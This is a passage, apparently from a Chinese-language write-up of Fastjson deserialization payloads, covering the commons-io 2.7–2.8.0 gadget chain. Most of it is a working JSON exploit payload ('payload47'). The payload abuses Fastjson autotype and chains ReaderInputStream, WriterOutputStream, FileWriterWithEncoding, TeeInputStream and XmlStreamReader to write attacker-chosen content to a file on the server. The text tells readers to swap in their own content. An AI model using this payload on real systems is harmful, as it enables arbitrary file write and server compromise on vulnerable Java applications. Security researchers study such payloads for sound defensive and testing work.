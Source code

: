 ```plain
```

[![](assets/1706254407-b5df285f27afa0c7a6ae60609dd5f2d6.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021202206100.png)

### 5.1.3 commons-io 2.7~2.8.0 版本

和上面大差不差，同样需要自行修改写入内容。

`payload47`：

```plain
{"x":{"@type":"com.alibaba.fastjson.JSONObject","input":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa...","start":0,"end":2147483647},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"2.txt","charsetName":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"trigger":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"trigger2":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"trigger3":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"}}}
```
